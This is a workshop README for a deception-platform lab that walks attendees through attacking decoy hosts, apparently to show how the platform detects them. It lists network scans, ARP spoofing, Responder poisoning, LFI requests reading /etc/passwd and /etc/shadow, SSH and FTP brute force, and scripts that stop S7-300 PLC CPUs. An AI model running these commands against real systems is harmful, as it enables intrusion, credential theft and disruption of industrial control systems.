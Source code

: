 # Welcome to the Advanced Threat Summit 2023

All you may need for the workshop is available in this repository.

## Getting the access
To begin with, please navigate to our test stand:
1. **Credentials to the AdminVM**
You may use any web browser of your choice.
```
URL: 
Username:
Password:  
```

2. **Credentials to the attacking host**
From this host you will perform your attacks. Please use SSH and following credentials:
```
Host:
Username:
Password:
```

## Terminology that will be used today
Due to the fact that today we are using Labyrinth Deception Platform as the example of the deception platfroms, it has its own therms that will be actively used today:
1. **Point** = network decoy, lure, deceptive network services.
> [!NOTE]
> Points ARE NOT separate virtual machines.
2. **Honeynet** = network segment in which Points operate. Used to specify in which VLAN you would like to run your Points.
3. **Seeder Tasks** = file decoys, breadcrumbs used to logically link real and deceptive infrastructure.
4. **Seeder Agent** = binary that spreads Seeder Tasks on real hosts.
5. **AdminVM (Management Console)**  = main module that controls the system.
6. **WorkerVM** = node on which Points are running.


## Commands transcript
In addition, we provide the transcript of all commands for your ease of use. Even if you missed any part of the presentation, feel free to use those notes to continue exploring.

> [!IMPORTANT]
> **\<any data>** indicates that you should paste in your own data that is entioned inside the triangular brackets.
>
> **[options]** indicates that this part (or parts) of the command is optional and can be omitted. Multiple options are listed using / (slash).

#### Case 1: network scan detection
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```

#### Case 2: connecting to the host using data from breadcrumbs 
1. Navigate to the Seeder Agents -> Tasks
2. Choose ssh_txt_credentials or ssh_config from the list
3. Click on three dots, and then Details
4. Use those credentials to login:
```
ssh <user>@<Point IP>
```

#### Case 3: ARP spoofing
```
sudo ettercap -i <interface> -T -M arp /<host 1>// /<host2>//
```
As an alternative you may use bettercap:
```
sudo bettercap
net.probe on
net.show
set arp.spoof.targets <Point IP>
set arp.spoof.fullduplex false
arp.spoof on
// po upływie pewnego czasu
arp.spoof off
```
References: [ettecap](https://www.ettercap-project.org/) and [bettercap](https://github.com/bettercap/bettercap) source

#### Case 4: LLMNR / NBT-NS Poisoning
For this we will be using *Responder*. It is already installed. All you need to do is to run a command:

```
cd Responder
sudo python2 Responder.py -I eth0
```
Reference: [Responder source](https://github.com/SpiderLabs/Responder)

#### Case 5: S7comm Malformed PDU
For this case there is a script that is available in this repo:
Simply run it: 
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py -a <Point IP>
```
Or:
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```
#### Case 6: Local File Inclusion
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```

#### [Advanced] Case 7: reusing the credentials
1. Find Web Server
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
2. Perform LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
or
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```
3. Setup the wordlist
```
cd wordlists
nano brute.dict
```
4. Perfrom SSH bruteforce
```
hydra -l <username> -P brute.dict <IP of the ssh host> ssh -t 4 
```
5. Login to the host
```
ssh <user>@<Point IP>
```
6. Reuse credentials to connect to another host
```
ssh <user>@warrior.labyrinth.tech
```

#### [Advanced] Case 8: attacking industrial networks
1. Search network for FTP server
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Connect to the FTP
Try to connect anonymously:
```
ftp <FTP IP address>
```
Start FTP bruteforce:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Inspect found file
```
ls -la
less <file>
```
4. Perform S7comm CPU control request
```
cd S7_scripts
python2 s7300stop.py 172.16.132.4
```
In addition, you can try to start CPU start message:
```
python2 s7300cpustart.py 172.16.132.2
```
Reference: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## About Labyrinth Deception Platform
Labyrinth is a team of experienced cybersecurity engineers and penetration testers, which specializes in the development of solutions for early cyber threat detection and prevention.

Deception techniques provide adversaries with an essential advantage over defenders, who cannot predict attackers’ next move. **OUR VISION** is to shift the balance of power in favor of defenders.

**OUR MISSION** is to provide all kinds of organizations with a simple and efficient tool for the earliest possible detection of attackers inside the corporate network.

More information about the platform: https://labyrinth.tech/ 